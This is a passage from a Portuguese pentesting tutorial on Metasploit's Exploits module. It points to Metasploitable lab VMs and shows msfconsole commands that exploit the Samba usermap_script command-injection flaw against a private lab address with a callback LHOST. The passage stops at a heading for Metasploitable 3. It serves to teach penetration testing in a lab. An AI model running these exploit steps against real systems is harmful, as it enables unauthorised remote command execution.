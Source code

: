 
> Para mais informações consulte a bibliografia disponível em Referência (no final do texto).


# Módulo Exploits

Bem, como já foi dito o Metasploit possui milhares de módulos para exploração de vulnerabilidades. Esses módulos normalmente são específicos para um dado sistema alvo, de um dado software e versão. Assim, para utilizar e testar esses módulos será necessário as informações de todos os passos de PenTeste realizados até aqui. Isso também complica a explicação de todos esses módulos, já que eles não são de propósito geral, muitos dos módulos não serão úteis, a menos que você se depare com tal sistema.

Desta forma, provavelmente a melhor forma de aprender os módulos é a partir de exemplos. Dito isso a seguir serão apresentados alguns exemplos de uso do módulo Exploits do Metasploit. Para esses exemplos serão utilizados pelos menos duas Máquinas Virtuais (VMs) próprias para invasão, tais VMs podem ser obtidas em:
* <https://github.com/rapid7/metasploitable3>.
* <https://sourceforge.net/projects/metasploitable/files/Metasploitable2/>

## Explorando o Linux Metasploitable 2

Esse teste ocorre em uma VM [Metasploitable 2](https://sourceforge.net/projects/metasploitable/files/Metasploitable2/) com Linux.

### Explorando com o SAMBA com o ``usermap_script``:

O módulo ``usermap_script`` explora uma vulnerabilidade que permite a execução de comandos em servidores SAMBA versões 3.0.20 até 3.0.25rc3. Neste quando o nome de usuário contém meta carácteres, o atacantes pode executar comandos arbitrários.

```console
[luiz@fielDACOM ~]$ msfconsole
msf6 > search samba
msf6 > use exploit/multi/samba/usermap_script
msf6 exploit(multi/samba/usermap_script) > set RHOSTS 192.168.56.104
msf6 exploit(multi/samba/usermap_script) > set LHOST 192.168.56.1
msf6 exploit(multi/samba/usermap_script) > exploit
```
Leia a respeito desta vulnerabilidade em:
* <https://www.infosecmatter.com/metasploit-module-library/?mm=exploit/multi/samba/usermap_script>;
* <https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script/>.

> Para ver como explorar mais vulnerabilidades no Metasploitable 2, leia: <https://www.hackingarticles.in/comprehensive-guide-on-metasploitable-2/>

> Há várias outras vulnerabilidades para serem exploradas e testas no Metasploitable 2, a ideia não é aprender apenas o *exploit*, que pode estar defasado, mas sim entender as técnicas envolvidas, pois isso pode lhe dar uma base melhor para entender e executar outros testes mais atuais. Ou seja, o objetivo é o aprendizado.

## Explorando o Linux Metasploitable 3:
